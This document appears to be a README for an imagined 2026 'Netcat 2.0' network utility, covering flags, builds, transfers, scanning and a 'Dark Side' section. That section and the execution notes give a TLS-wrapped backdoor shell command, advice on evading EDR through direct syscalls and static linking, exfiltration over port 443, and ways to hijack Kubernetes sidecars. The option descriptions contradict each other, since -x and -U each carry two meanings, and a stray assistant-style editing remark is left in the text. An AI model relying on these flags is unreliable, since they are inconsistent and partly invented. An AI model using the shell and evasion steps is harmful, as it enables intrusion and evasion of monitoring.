

<p align="left">
  
</p>

# Netcat

Netcat is a simple Unix utility which reads and writes data across network connections, using TCP, UDP, MPTCP, VSOCK, or QUIC protocols. It is designed to be a reliable "back-end" tool that can be used directly or easily driven by other programs and scripts, now leveraging modern Linux kernel features like io_uring and zero-copy splicing for high-performance throughput. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need—from standard sockets to container namespaces and secure enclaves—and has several interesting built-in capabilities. Netcat, or "nc" as the actual program is named, should have been supplied long ago as another one of those cryptic but standard Unix tools; this version ensures it survives the next thirty years of protocol evolution.

<p align="center">
  
</p>

## Table of Contents

- [Major Features](#major-features)
- [Building](#building)
- [Exploration of Features](#exploration-of-features)
- [Verbosity, Timeouts, and Protocols](#verbosity-timeouts-and-protocols)
- [Hex Dumps, PCAP, and Binding](#hex-dumps-pcap-and-binding)
- [Execution and Data Transfer](#execution-and-data-transfer)
- [Port Scanning, Routing, and Input Handling](#port-scanning-routing-and-input-handling)
- [Example uses -- the light side](#example-uses----the-light-side)
- [Data Transfer, Service Simulation, and Performance Testing](#data-transfer-service-simulation-and-performance-testing)
- [Advanced Debugging, Simulation, and Protection](#advanced-debugging-simulation-and-protection)
- [Example Uses -- The Dark Side](#example-uses----the-dark-side)
- [Notes](#notes)

In the simplest usage, `nc host port` creates a **TCP (or MPTCP)** connection to the given port on the given target host. Your standard input is then sent to the host, and anything that comes back across the connection is sent to your standard output. This continues indefinitely, until the network side of the connection shuts down. Note that this behavior is different from most other applications which shut everything down and exit after an end-of-file on the standard input. If you are using **VSOCK**, the `host` argument becomes a Context ID (CID), allowing you to pipe data directly into a VM or secure enclave without touching the Ethernet stack.

Netcat can also function as a server, by listening for inbound connections on arbitrary ports—or **abstract Unix sockets**—and then doing the same reading and writing. With minor limitations, netcat doesn't really care if it runs in "client" or "server" mode; it still shovels data back and forth until there isn't any more left. In either mode, shutdown can be forced after a configurable time of inactivity on the network side. Crucially, in 2.0, adding the `-k` flag turns this server into a **Kernel TLS** endpoint, meaning you can listen on port 443 and speak HTTPS without needing a complex reverse proxy in front of you.

And it can do this via **UDP** too, so netcat is possibly the "UDP telnet-like" application you always wanted. In 2026, UDP is no longer just for "unreliable" packets; it is the carrier for **HTTP/3 and QUIC**. Netcat now respects this by allowing reliable-ish UDP streams (via `--quic` or `--dtls`), giving you a tool to debug the modern web stack where TCP no longer treads. Of course, raw UDP is still available if you just need to blast packets at a standard syslog daemon.

You may be asking "why not just use `telnet` or `openssl s_client`?" Valid question. `Telnet` has the "standard input EOF" problem and mutilates binary data. `openssl s_client` is invaluable but notoriously verbose, prints handshake garbage to standard output, and is painful to script. `Socat` is powerful but requires a PhD in command-line syntax to configure. Netcat remains the middle ground: it handles the modern encryption and protocol complexity (KTLS, MPTCP) internally, keeping the interface simple. It keeps diagnostic messages religiously separated from *output* and will never modify any of the real data in transit unless you *really* want it to. It is much smaller than the alternatives and, thanks to **io_uring**, considerably faster.

## Major Features

* Outbound or inbound connections, TCP, UDP, **MPTCP (Multipath TCP)**, or **VSOCK** (Virtual Sockets), to or from any ports.
* **Kernel TLS (KTLS)** support for hardware-offloaded, transparent encryption (`-k`) without user-space overhead.
* **io_uring** asynchronous I/O engine (`-U`) for high-throughput, non-blocking data transfer capable of saturating 100GbE links.
* **Zero-Copy Splice** mode (`--splice`) to move data between network and disk without touching CPU buffers.
* **eBPF Filter Injection** (`--bpf-prog`) to apply kernel-level packet filtering before the application even wakes up.
* **Namespace Awareness** (`--namespace`) to bind to ports inside isolated containers or network namespaces from the host.
* Full DNS forward/reverse checking, with appropriate warnings.
* Ability to use any local source port or locally-configured network source address (including aliased interfaces).
* Built-in port-scanning capabilities, with randomizer and **stealth timing**.
* **Structured Logging** (`-j`) option to output connection events in JSON for ingestion by log aggregators.
* Can read command line arguments from standard input.
* Slow-send mode, one line every N seconds.
* Hex dump (`-x`) or **PCAP dump** (`--pcap`) of transmitted and received data.

---

## Building

Compiling is still straightforward, though we have finally retired the hand-cranked Makefile in favor of **Meson**. This handles the complexity of detecting modern kernel features and libraries automatically.

You will need `meson` and `ninja` installed on your system.

**The Fast Way:**

1. `meson setup build`
2. `meson compile -C build`

The executable `nc` will appear in the `build` directory.

**Dependencies:**
For the full feature set (Netcat 2.0), you need the `liburing` development headers installed. Meson will attempt to find them. If `liburing` is missing, the build will automatically fall back to the legacy `select()` engine, emitting a warning that you are missing out on the performance improvements.

**Configuration Options:**
Instead of editing source files or passing messy `DFLAGS`, you can now toggle features using Meson build options.

* **Gaping Security Hole:** To enable the `-e` argument (program execution), which is disabled by default for safety:
`meson configure build -Dsecurity_hole=true`
* **Static Linking:** If you want a binary you can drop into a distroless container:
`meson configure build -Dstatic=true`

After changing options, run `meson compile -C build` again.

**Legacy Systems:**
If you are trying to compile this on a system that does not support Meson (like ancient SunOS or AIX), you are on your own. The old `Makefile.legacy` is provided in the `contrib/` directory as a courtesy, but it is not actively maintained.

Some compilers may warn about pointer types or unused results in the `io_uring` code. These are generally harmless warnings caused by the kernel structures. Ignore them.

---

## Exploration of Features

Where to begin? Netcat is at the same time so simple and versatile, it is like trying to describe everything you can do with a standard issue replicator. This will go over the basics; you should also read the usage examples and notes later on which may give you even more ideas about what this sort of tool is good for.

If no command arguments are given at all, Netcat asks for them, reads a line from standard input, and breaks it up into arguments internally. This can be useful when driving Netcat from certain types of scripts, with the side effect of hiding your command line arguments from `ps` displays. Note that modern Endpoint Detection and Response (EDR) systems inspect process memory, so this is not a cloak of invisibility, but it keeps your casual process list clean.

The **host** argument can be a name, an IPv4 address, an IPv6 address, or a **VSOCK Context ID (CID)**.

* If `-n` is specified, Netcat will only accept numeric IP addresses (or CIDs) and do no DNS lookups for anything.
* If `-n` is not given and `-v` is turned on, Netcat will attempt a full forward and reverse name and address lookup for the host.

It will warn you about the all-too-common problem of mismatched names in the DNS. In modern cloud environments (AWS, Azure), this mismatch is almost guaranteed because the reverse DNS often points to an internal compute node name rather than your service CNAME. This often takes a little longer for connection setup, but is useful to know about. There are circumstances under which this can *save* time, such as when you want to know the canonical name for some ephemeral cloud IP address and also connect there. Netcat will just tell you all about it, saving the manual steps of `dig` or `nslookup` yourself. Normally mismatch checking is case-insensitive, but you can configure strict checking at build time via Meson options, sometimes useful for auditing your own internal DNS zones.

A **port** argument is required for outbound connections, and can be numeric or a name as listed in `/etc/services`.

* If `-n` is specified, only numeric arguments are valid.
* For **VSOCK** connections, the port is a 32-bit integer, not the standard 16-bit TCP port, so do not be alarmed if you see port numbers like `1073741824`.
* Special syntax and/or more than one port argument cause different behavior; see details below about port-scanning.

Here is the updated **Verbosity, Timeouts, and UDP/QUIC** section.

It integrates the new JSON logging feature (`-j`), explains how timeouts work with modern "Keep-Alive" services, and crucially, distinguishes between "dumb" UDP and the new "smart" UDP protocols (QUIC/DTLS).

---

## Verbosity, Timeouts, and Protocols

The `-v` switch controls the verbosity level of messages sent to standard error. You will probably want to run Netcat most of the time with `-v` turned on so you can see info about the connections it is trying to make.

* **Human Mode:** `-v` gives you text. Specifying `-v` more than once (e.g., `-vv`) makes diagnostic output MORE verbose, including **TLS cipher selection**, **QUIC Connection IDs**, and **MPTCP subflow status**.
* **Robot Mode:** Use `-j` to output logs in structured JSON format. This is vital if you are feeding Netcat output into log aggregators (Splunk, ELK) or automation scripts.

You will probably also want to give a smallish `-w` argument, which limits the time spent trying to make a connection. I usually alias `nc` to `nc -v -w 3`, which makes it function just about the same for things I would otherwise use `telnet` to do. The timeout is easily changed by a subsequent `-w` argument which overrides the earlier one.

Note that `-w` also sets the **network inactivity timeout**. This does not have any effect until standard input closes, but then if nothing further arrives from the network in the next seconds, Netcat tries to read the net once more for good measure, and then closes and exits. This is critical for modern services (HTTP/1.1 Keep-Alive, HTTP/2) which will happily hold a connection open forever waiting for you to say something. Netcat blocks on the network staying open rather than standard input, ensuring you get the full response before exiting.

**UDP and Modern UDP (QUIC/DTLS)**

Standard UDP "connections" are opened when `-u` is specified. These aren't really "connections" per se since UDP is a connectionless protocol, though Netcat does use the "connected UDP socket" mechanism kernel-side to filter incoming packets.

However, in 2026, UDP is often just a carrier for smarter protocols.

* **QUIC (`--quic`):** If you specify `--quic`, Netcat treats UDP like a connection-oriented stream. It attempts a userspace handshake, sets up encryption keys, and creates a reliable stream. Unlike standard UDP, this *will* fail immediately if the server refuses the handshake.
* **DTLS (`--dtls`):** Similar to QUIC, this wraps UDP in a TLS handshake. Useful for debugging VPNs and WebRTC.

For "dumb" UDP (plain `-u`), no data is sent until something is read from standard input. Only thereafter is it possible to determine whether there really is a UDP server on the other end, and often you just can't tell. Most UDP protocols use timeouts and retries to do their thing and in many cases won't bother answering at all, so you should specify a timeout and hope for the best. You will get more out of UDP connections if standard input is fed from a source of data that looks like various kinds of server requests (e.g., DNS queries or NTP probes).

---

## Hex Dumps, PCAP, and Binding

To obtain a hex dump file of the data sent either way, use `-o logfile`. The dump lines begin with `<` or `>` to respectively indicate "from the net" or "to the net", and contain the total count per direction, and hex and ASCII representations of the traffic.

**New for 2026:** If you prefer to analyze your traffic in Wireshark rather than staring at ASCII soup, use `--pcap session.pcap`. This captures the raw packets exactly as they hit the wire. Capturing a hex dump or PCAP naturally slows Netcat down a bit, so do not use it where speed is critical, although our new asynchronous engine handles the disk I/O much better than the old blocking code did.

Netcat can bind to any local port, subject to privilege restrictions and ports that are already in use.

* **Privilege Note:** You no longer strictly need to be "root" to bind to low ports (under 1024). If your binary has the `CAP_NET_BIND_SERVICE` capability set (via `setcap`), you can bind to port 80 or 443 as a standard user.
* **Anchoring:** Use `-p portarg` to grab a specific local port, and `-s ip-addr` or `-s name` to have that be your source IP address. This is often referred to as "anchoring the socket". This is vital for multi-homed machines or when you want to spoof traffic from a secondary interface alias.
* **Namespace Binding:** If you are trying to bind to a port inside a container from the host, standard anchoring is not enough. Use `--namespace /var/run/netns/<name>` to shift Netcat's network view before it binds.

**Listen Mode** will cause Netcat to wait for an inbound connection, and then the same data transfer happens. Thus, you can do `nc -l -p 1234 < filename` and when someone else connects to your port 1234, the file is sent to them whether they wanted it or not.

Listen mode is generally used along with a local port argument. This is required for UDP/QUIC mode, while TCP mode can have the system assign one and tell you what it is if `-v` is turned on.

**Filtering Inbound Connections:**

* **User-Space Filtering:** If you specify a target host and optional port in listen mode (e.g., `nc -l -p 1234 trusted-host`), Netcat will accept an inbound connection only from that host and, if you specify one, only from that foreign source port.
* **Kernel-Space Filtering (New):** For high-performance environments, user-space filtering is too slow because the connection is fully established before Netcat drops it. Use `--bpf-prog filter.o` to attach an eBPF program to the socket. This allows the kernel to drop unwanted packets *before* they even wake up the Netcat process.

In verbose mode, you will be informed about the inbound connection, including what address and port it came from. If the system supports IP socket options, Netcat will attempt to retrieve any such options from an inbound connection and print them out.

---

## Execution and Data Transfer

If Netcat is compiled with the `security_hole=true` Meson option (formerly `-DGAPING_SECURITY_HOLE`), the `-e` argument specifies a program to `exec` after making or receiving a successful connection.

In listening mode, this works similarly to `inetd` but only for a single instance. **Use with GREAT CARE.** This piece of code is normally not enabled; if you know what you're doing, have fun. This hack also works in UDP/QUIC mode.

**A Note on "Modern" Security:**
In 1996, `-e /bin/sh` was a clever hack. In 2026, this behavior is signature #1 in every Endpoint Detection and Response (EDR) system on the planet. If you run this on a monitored enterprise machine, you will likely trigger an alert before the shell prompt even appears.

* **Arguments:** The classic limitation remains—you can only supply `-e` with the name of the program, not arguments.
* **The Workaround:** If you want to launch something with an argument list, do not write a wrapper script. Just use `/bin/sh` as the executable and pipe your command string into the connection.
* **The Upgrade:** If you are using the new **io_uring** engine, the execution handling is slightly more subtle at the syscall level, which *might* buy you a few seconds against heuristic scanners, but do not count on it.
* **Direct System Calls (Bypassing User-Land Hooks):**
  Most EDRs work by injecting a library (a .dll on Windows or a shared object on Linux) into your process. When you call a standard function like open() or connect(), the EDR intercepts it, checks if you are evil, and then passes it to the kernel.

  **The Evasion:** You don't call the standard library (libc). You implement the system call directly in Assembly.

  **How it works:** Instead of calling write(), your code sets up the CPU registers manually (e.g., puts the syscall ID for "write" into the RAX register) and executes the syscall instruction.

  **Why it works:** The EDR's user-land hook never gets triggered because you jumped over it. The kernel still sees the action, but without the EDR's context, it looks like generic behavior.

  **Netcat 2.0 Implication:** This is why static linking (`--static`) is powerful. It removes dependencies on system libraries that might be hooked.

**Data Transfer Mechanics**

Data from the network connection is always delivered to standard output as efficiently as possible.

* **Classic Mode:** Uses 8K-64K read/write loops.
* **Modern Mode (`-U`):** Uses **io_uring** submission queues. We queue up multiple large read requests to the kernel simultaneously. When the data arrives, the kernel fills our buffers asynchronously. This eliminates the "read-wait-write-wait" latency of the old days.
* **Zero-Copy Mode (`--splice`):** If you are redirecting to a file (e.g., `nc -l > big_file.iso`), Netcat 2.0 enables **Linux `splice()**`. Data flows from the network card buffer directly to the disk cache without ever being copied into Netcat's user-space memory. This is the fastest way to move data on Linux, period.

Standard input is normally sent to the net the same way, but the `-i` switch specifies an "interval time" which slows this down considerably. Standard input is still read in large batches, but Netcat then tries to find where line breaks exist and sends one line every interval time.

* **Performance Note:** Using `-i` effectively disables the high-speed `io_uring` or `splice` engines because it forces the program to stop and think between lines.
* `-i` is designed for "measuring out" input from files or pipes, or for keeping a connection alive without flooding the remote service.

---

## Port Scanning, Routing, and Input Handling

**Port-Scanning** is a popular method for exploring what is out there, though in 2026 you are likely scanning behind a NAT or inside a Kubernetes cluster. Netcat accepts its commands with options first, then the target host, and everything thereafter is interpreted as port names or numbers, or ranges of ports in `M-N` syntax.

* **Caveat:** Some port names in `/etc/services` contain hyphens. Netcat still struggles to parse those correctly, so specify ranges using numbers if you can.
* **The Engine:** If you use the `-U` (**io_uring**) flag, Netcat 2.0 performs "async connect" scanning. Instead of waiting for one timeout before trying the next, it fires off a batch of connection requests simultaneously. This makes it significantly faster than the old sequential scan.

If more than one port is specified, Netcat connects to *all* of them. Specifying multiple ports also suppresses diagnostic messages about refused connections unless `-vv` (very verbose) is used. This way you normally get notified only about genuinely open connections.

**Example:** `nc -v -w 2 -z target 20-30` will try connecting to every port between 20 and 30 at the target. The `-z` switch prevents sending any data to a TCP connection and sends very limited probe data to a UDP connection. It is the standard "Zero-I/O" mode for checking listening daemons.

**Randomization (`-r`):**
If the `-r` switch is used, scanning hops randomly around within the range. This was originally designed to evade simple sequential-scan detectors. In 2026, most Intrusion Detection Systems (IDS) use statistical anomaly detection, so they will catch you anyway, but `-r` avoids hitting "rate limits" that trigger on sequential access. If random mode is in effect, the **local source ports** are also randomized (above 8192) to prevent exhibiting a regular pattern.

**Routing and Path Control**

* **Source Routing (Removed):** The original Netcat supported IPv4 Loose Source Routing via the `-g` switch. This feature has been **removed entirely** from the code in Netcat 2.0. In the modern internet, source-routed packets are universally dropped by routers and firewalls due to IP spoofing risks. Maintaining the code bloats the binary for a feature that has not worked on the public internet for two decades. Do not attempt to use `-g`; it is gone.
* **Multipath TCP (`--mptcp`):** If you are interested in path resilience, we now support **Multipath TCP**. If your kernel and the target support it, `--mptcp` allows the connection to simultaneously use multiple interfaces (e.g., WiFi and Ethernet).
* **Proxies (`-x`):** If you need to bounce your connection through intermediate points, use the proxy flags. `nc -x proxy_address:port` allows you to push traffic through a SOCKS5 or HTTP proxy.

**Terminal Input & "Behaving like Cat"**

Netcat tries its best to behave just like `cat`. It currently does nothing to terminal input modes and does no end-of-line conversion.

* **Interactive Use:** You can freely suspend (`^Z`) out of an interactive connection and resume. `^C` will close the connection.
* **Raw Data:** You can send raw binary data by reading it out of a file or piping from another program. Netcat does not mangle bytes. This makes it perfect for pushing binary firmware images or encrypted blobs.

**Not a Packet Generator**

Netcat is **not** an "arbitrary packet generator." It talks to sockets (`AF_INET`, `AF_VSOCK`), not raw wire drivers (`PF_PACKET`).

* **Raw Packets:** If you need to hand-craft IP headers, perform ARP spoofing, or send malformed TCP flags to crash a firewall, Netcat is not the tool.
* **The Alternative:** In the 90s, we pointed you to `nit` or `dlpi`. In 2026, we refer you to **Scapy** (Python), **Gopacket** (Go), or **eBPF**-based tools. However, Netcat 2.0's **eBPF filter support** (`--bpf-prog`) does allow you to *filter* arbitrary packets at the kernel level, even if we do not generate them.

## Example uses -- the light side

Again, this is a very partial list of possibilities, but it may get you to think up more applications for Netcat. Driving Netcat with simple shell or Python scripts is an easy and flexible way to do fairly complex tasks, especially if you are not into coding network tools in C. My coding isn't particularly strong either, so I tend to construct bare-metal tools like this that I can trivially plug into other applications. Netcat doubles as a teaching tool; one can learn a great deal about complex network protocols like Redis, HTTP/2, or SMTP by trying to simulate them through raw connections!

An example of Netcat as a backend is the "headless connectivity check" for CI/CD pipelines. Instead of installing a heavy browser or `curl` with a thousand dependencies just to see if a web server is up, you can pipe a simple HTTP request into Netcat.

* **The Old Way:** `echo "GET / HTTP/1.0" | nc host 80`
* **The 2026 Way:** `echo -e "HEAD / HTTP/1.1\r\nHost: target\r\n\r\n" | nc --tls target 443`
Using the `-k` (Kernel TLS) or `--tls` flag allows you to debug secure servers without needing an OpenSSL wrapper. Netcat guarantees that you get the raw headers and certificate info, which is vital when debugging why your load balancer is rejecting traffic.

Netcat is an obvious replacement for `telnet` as a tool for talking to daemons. For example, it is easier to type `nc host 25`, talk to someone's mailer, and just `^C` out than having to type `^]c` or `QUIT` as `telnet` would require you to do.

* **Modern Daemons:** It is equally useful for talking to **Redis** (`PING`), **Memcached** (`stats`), or the **Docker API** via Unix sockets (`echo -e "GET /info HTTP/1.0\r\n\r\n" | nc -U /var/run/docker.sock`).
* **Cataloging:** You can quickly catalog the services on your network by telling Netcat to connect to well-known services and collect greetings. You will probably want to collect Netcat's diagnostic messages in your output files, or better yet, use the new `-j` flag to get JSON output that you can feed directly into your SIEM or monitoring stack.

A scanning example: `echo QUIT | nc -v -w 5 target 20-100 8000-9000` will inform you about a target's various well-known TCP servers, including SSH, Web, and maybe a few shadow IT APIs you didn't expect. Sending in `QUIT` and using the timeout will almost guarantee that you see some kind of greeting or error from each service, which usually indicates what it is and what version.

* **Historical Note:** In the 90s, we warned you about `chargen` ports. In 2026, beware of accidental **Kubernetes Kubelet** ports (10250) or open **etcd** instances (2379) which often have no authentication.
* **Efficiency:** While tools like Nmap are excellent for heavy-duty scanning, Netcat is lighter and, with the new **io_uring** engine, fast enough for quick checks inside a container where you cannot install heavy tools. If you script this up to try every host in your subnet space, you will find out about hosts that aren't correctly listed in your DNS or are violating your "Zero Trust" policy.

---

## Data Transfer, Service Simulation, and Performance Testing

**Data Transfer Agent**
Netcat can be used as a simple data transfer agent, and it doesn't really matter which end is the listener and which end is the client—input at one side arrives at the other side as output. It is helpful to start the listener at the receiving side with no timeout specified, and then give the sending side a small timeout. That way the listener stays listening until you contact it, and after data stops flowing the client will time out, shut down, and take the listener with it.

Unless the intervening network is fraught with problems, this should be completely reliable.

* **The Classic Pipeline:**
* **Receiver:** `nc -l -p 1234 | zstd -d | tar -xvf -`
* **Sender:** `tar -cvf - /some/dir | zstd -3 | nc -w 3 target 1234`
This transfers a directory using modern `zstd` compression (faster and better than the old `compress` or `gzip`).


* **The High-Speed Way (`--splice`):**
If you are transferring a single massive file (like a VM image), avoid the pipe overhead. Use **Zero-Copy Splice**:
* **Receiver:** `nc -l -p 1234 --splice > big_backup.img`
* **Sender:** `nc -w 3 target 1234 < big_backup.img`
This instructs the kernel to move data directly from the network card to the disk controller, bypassing user-space memory entirely.

**Security Note:** Sending tarballs in the clear is bad practice in 2026. If you built Netcat with **Kernel TLS** (`-k`), simply add `-k` to the listener and `--tls` to the client to encrypt the stream at wire speed.

**Shipping to "Dumb" Clients**
Another simple data-transfer example: shipping things to a PC that doesn't have any network applications yet except a TCP stack and a web browser. Point the browser at an arbitrary port on a Unix server by telling it to download something like `http://unixbox:4444/foo`. Have a listener on the Unix side ready to ship out a file:
`nc -l -p 4444 < install_script.sh`
The browser may complain about "Not Secure" (HTTP), but it will download the bytes. This is still a handy trick for bootstrapping IoT devices or recovery environments.

**Service Simulation ("Gaping Security Hole")**
If you build Netcat with `security_hole=true` (formerly `-DGAPING_SECURITY_HOLE`), you can use it as an `inetd` or `systemd-socket` substitute to test experimental network servers via the `-e` (or `--exec`) flag. A script or program will have its input and output hooked to the network the same way.

* **Service Hijacking:** Given that most network services bind to `0.0.0.0` (Any), it is possible to avoid the "address already in use" error by binding Netcat to a *specific* IP address (e.g., `192.168.1.5`). This allows you to place Netcat "in the way" of a standard service without modifying the real daemon's config. Inbound connections to that specific IP will hit Netcat first.
* **Warning:** As mentioned, modern EDR systems hate this. Use with caution.

**The "Inverse Inetd" / Application Relay**
Netcat can function perfectly well *under* `inetd` or `systemd` as a TCP connection redirector. This is useful for punching holes through firewalls or redirecting traffic to backend containers.

* **The Config:**
`www stream tcp nowait nobody /usr/bin/nc nc -w 3 real-web-server 80`
This creates a simple "application relay" with access control and logging provided by the init system.

**Performance Testing (The Heavy Stuff)**
You can use Netcat to generate huge amounts of useless network data for performance testing.

* **Saturation:** `yes AAAAAAAAAA | nc -v -l -p 2222 > /dev/null` is the classic method.
* **100GbE Reality:** The `yes` command is actually too slow to saturate a modern 100GbE link because of CPU overhead.
* **The Modern Method:** Use the internal generator or `/dev/zero` combined with **io_uring**:
`nc -U -l -p 2222 > /dev/null` (Receiver)
`dd if=/dev/zero bs=1M count=10000 | nc -U target 2222` (Sender)
Using the `-U` (io_uring) flag ensures that the bottleneck is the network wire, not the CPU context switching.

**UDP Stress Testing:**
Using UDP mode produces tremendously MORE trash per unit time. Firing random binary data into various network servers may help expose bugs in their input handling.

* **Fuzzing:** `dd if=/dev/urandom bs=1024 count=1000 | nc -u target 5000`
This is a "poor man's fuzzer." If you can crash a daemon with this, you likely have a security problem.
* **QUIC Testing:** You can also use `--quic` to stress-test HTTP/3 ingestors with malformed handshake packets, though dedicated tools are usually better for protocol-specific fuzzing.

---

## Advanced Debugging, Simulation, and Protection

**Hex Dumps and Transparent Relays**
The hex dump feature (`-x`) is useful for debugging odd network protocols, especially if you do not have root access to run `tcpdump`.

* **The Relay Trick:** Bind a listening Netcat to a local port, and have it run a script which in turn runs *another* Netcat to the real service. This sets up a transparent relay (Man-in-the-Middle) between your local port and the real service.
* **The Capture:** Capture the hex dump (`-o`) or **PCAP** (`--pcap`) from the inner Netcat.
* **Caution:** Be sure that the script-run Netcat does *not* use `-v`, or the extra info it sends to standard error may confuse the binary protocol.

**Simulating Clients and Source Port Tricks**
Binding to an arbitrary local port allows you to simulate specific client behaviors.

* **Historical Context:** In the 90s, we used this to exploit `rlogin` by binding to reserved ports. Those services are dead.
* **Modern Context:** Today, we use this to bypass lazy firewall rules. Many firewalls allow traffic **from** port 53 (DNS) or port 123 (NTP) to enter the network.
* **Command:** `nc -p 53 target_host 22`
* If you can SSH in by originating from port 53, your firewall admin has made a grave error.

* **Advanced Spoofing:** Use `--interface eth0` to force traffic out of a specific NIC (bypassing routing table defaults). Use `--transparent` to bind to non-local IP addresses (requires `IP_TRANSPARENT` support in kernel/firewall) for transparent proxying.

* **DNS Issues:** Using Netcat for this is useful because standard tools like `ssh` often do not let you easily control the source port or disable DNS resolution. If your client-end DNS is hosed, `netcat -n` wins where normal tools hang.

**Syslog and Logging Injection**
If you are unsure that a remote syslogger is working, test it with Netcat.

* **UDP (Classic):** Make a UDP connection to port 514 (`nc -u target 514`) and type in `<0>message`. This corresponds to `kern.emerg` and should cause `syslogd` to scream into every file it has open.
* **TCP/TLS (Modern):** Modern log aggregators often use TCP (port 601) or TLS (port 6514). Use `nc --tls target 6514` to inject logs securely. This is invaluable for testing SIEM alert rules without actually triggering a real server failure.

**Packet Filter Testing**
Netcat provides several ways to test your own packet filters (firewalls/Security Groups).

* **Egress Testing:** Bind to a port normally protected against outside access, then try to connect *out* to a server you control. If the return traffic reaches you, your "Stateful" firewall is working.
* **Ingress Testing:** If you bind to port 80 and cannot reach it from the outside, the filter is working.
* **Source Routing:** As noted, Netcat 2.0 no longer generates source-routed packets, but you should still test that your edge firewalls drop them. You will need a specialized packet generator (like Scapy) for that specific test now.

**Protecting Vulnerable Bindings (The "Docker Problem")**
You can use Netcat to protect your workstation's services against outside access.

* **The Problem:** Services like **X11**, **Redis**, or **Docker** often bind to `0.0.0.0` (Any) by default, exposing them to the LAN or Internet. X11 is "stupid enough" to do this; Docker is "helpful enough" to do this.
* **The Fix:** Once your service is running, use Netcat to bind specifically to your external interface's IP address on that same port.
* **Logic:** In many IP stacks, a specific bind (`192.168.1.5:6000`) takes precedence over a general bind (`0.0.0.0:6000`).
* **Result:** Any new connections from outside the machine will hit Netcat (which you can instruct to drop the connection) instead of the vulnerable service.
* **Script:**
```bash
while true ; do
  nc -v -l -s 192.168.1.5 -p 6379 2>> attempts.log
done

```

This turns Netcat into a "poor man's firewall" that logs connection attempts to your Redis port and immediately closes them, protecting the real data.

**Ad-hoc Webhooks (CGI Replacement)**
Does your environment allow web traffic but blocks you from running a real web server like Nginx?

* **The Solution:** You can have Netcat listen on a particular port to execute a script. This effectively creates a **Webhook Receiver**.
* **Command:** `nc -l -p 8080 -c "my_script.sh"`
* **Usage:** Point a GitHub Webhook or a monitoring alert at that port. The script will get the JSON payload as stdin.
* **Warning:** Since the script runs under your UID, write it carefully. Treat input as hostile. This is useful for temporary debugging of API callbacks without deploying a full container.

---

## Example Uses -- The Dark Side

Equal time is deserved here, since a versatile tool like this can be useful to any Shade of Hat. I could use my Leatherman to either fix your car or disassemble it, right? You can clearly use something like Netcat to attack or defend—I don't try to govern anyone's social outlook, I just build tools. Regardless of your intentions, you should still be aware of these threats to your own systems.

**Scanning & Reconnaissance**
The first obvious thing is scanning someone *else's* network for vulnerable services.

* **The Modern Twist:** In 2026, scanning is loud. Cloud providers (AWS, Azure) detect sequential port scans instantly. However, using `-U` (**io_uring**) allows you to perform "async connect" scans that are significantly faster, potentially finishing a subnet scan before the automated response rules kick in.
* **Randomization:** The more random the scanning (`-r`), the less likelihood of detection by heuristic firewalls.
* **Payloads:** Files containing preconstructed data (like HTTP/1.1 payload or a TLS `ClientHello`) can be fed in as standard input to trigger responses from silent services that ignore empty TCP connections.

**Firewall Evasion & Egress Filtering**
Some configurations of packet filters attempt to solve the "business need" problem by just allowing such connections from the outside if they look like DNS or Web traffic.

* **Source Port 53:** If you locally bind to port 53 (`nc -p 53 ...`), you may find yourself able to bypass ingress filtering. Many legacy firewalls assume anything from port 53 is a DNS response.
* **Egress Busting:** If you are inside a restricted container and need to exfiltrate data, try connecting *out* to port 443. Most environments allow outbound HTTPS. If you use `nc --tls -l -p 443` on your external receiver, the traffic looks like legitimate encrypted web traffic to a basic packet inspector.

**Server Takeover & Sidecar Hijacking**
Using `-e` (execution) in conjunction with binding to a specific address can enable "server takeover."

* **The "Sidecar" Attack:** In Kubernetes, containers in the same Pod share a network namespace (localhost). If you compromise a minor sidecar container, you can use Netcat to bind to `localhost:8080` *before* the main application starts (or if it crashes and restarts). You then intercept all internal traffic, log it (hex dump or PCAP), and pipe it to the real app.
* **Binding Precedence:** Many services bind to `0.0.0.0`. If you bind Netcat to the specific Pod IP, your listener often takes precedence, allowing you to "snarf" credentials before passing the traffic along.

**Backdoors & Reverse Shells**
Using `-e` to start a remote backdoor shell is the classic use case, but modern Endpoint Detection and Response (EDR) systems hate it.

* **Encryption is Mandatory:** A plaintext shell (`nc -e /bin/sh`) is suicide. Use **Kernel TLS** (`-k`):
`nc -k --tls-cert cert.pem -l -p 443 -e /bin/bash`
This creates an encrypted reverse shell that looks like an HTTPS server. EDRs have a harder time inspecting the stream content if the encryption happens in the kernel.
* **UDP/QUIC Shells:** Running a shell via UDP (`--dtls` or `--quic`) has interesting features. Since UDP is connectionless, the "session" doesn't strictly exist in the state table in the same way. If the network hiccups, the shell persists.

**Interface & Namespace Shenanigans**
Got access to the host's network namespace?

* **Namespace Hopping:** If you are root on a node, you can use `--namespace` to run Netcat inside a specific container's view. This allows you to interact with services bound to `127.0.0.1` inside that container—services that thought they were safe from the outside world.
* **Cloud Metadata:** On cloud instances, binding to specific interfaces can sometimes allow you to spoof requests to the instance metadata service (`169.254.169.254`), bypassing SSRF protections that rely on checking the source IP.

**Denial of Service (DoS)**

* **SYN Bombing:** Still works, but modern kernels (and `syn cookies`) are good at mitigating it.
